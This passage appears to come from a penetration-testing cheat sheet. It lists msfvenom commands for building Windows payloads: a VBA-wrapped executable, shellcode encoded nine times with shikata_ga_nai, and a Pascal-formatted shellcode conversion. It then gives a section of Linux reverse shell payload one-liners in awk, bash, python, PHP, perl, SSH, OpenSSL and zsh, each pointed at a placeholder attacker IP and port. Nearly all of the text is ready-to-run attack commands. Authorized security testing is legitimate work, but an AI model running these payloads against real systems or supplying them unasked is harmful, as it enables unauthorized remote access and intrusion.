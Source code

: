 `$ msfvenom -p generic/custom payloadfile=/home/user/calc.exe -a x64 --platform windows -f vba-exe`

- **Pipe it through msfvenom**

`$ cat payload-x86.bin | msfvenom -p - -a x86 --platform windows -e x86/shikata_ga_nai -f c -i 9`

- **Generate formatted Pascal shellcode**

`$ msfvenom -p <payload> -f c | sed -r 's/[\x]+/$/g' | sed -r 's/[\]+/,/g' | sed -r 's/["]+//g' | sed -e 's/$/\,/' | cut -c 2-`

### 2.4 - Scripting Payloads

#### 2.4.1 - Reverse Shells

##### 2.4.1.1 - Linux

- **Awk**

`$ msfvenom -p cmd/unix/reverse_awk lhost=<IP> lport=<PORT>`

- **Bash**

`$ msfvenom -p cmd/unix/reverse_bash lhost=<IP> lport=<PORT>`

`$ msfvenom -p cmd/unix/reverse_bash_telnet_ssl handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT>`

`$ msfvenom -p cmd/unix/reverse_bash_udp lhost=<IP> lport=<PORT>`

- **Python**

`$ msfvenom -p cmd/unix/reverse_python lhost=<IP> lport=<PORT>`

`$ msfvenom -p cmd/unix/reverse_python_ssl handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT>`

- **PHP**

`$ msfvenom -p cmd/unix/reverse_php_ssl handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT>`

- **Perl**

`$ msfvenom -p cmd/unix/reverse_perl lhost=<IP> lport=<PORT>`

`$ msfvenom -p cmd/unix/reverse_perl_ssl handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT>`

- **SSH**

`$ msfvenom -p cmd/unix/reverse_ssh lhost=<IP> lport=<PORT>`

- **OpenSSL**

`$ msfvenom -p cmd/unix/reverse_openssl handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT>`

- **Zsh**

`$ msfvenom -p cmd/unix/reverse_zsh lhost=<IP> lport=<PORT>`
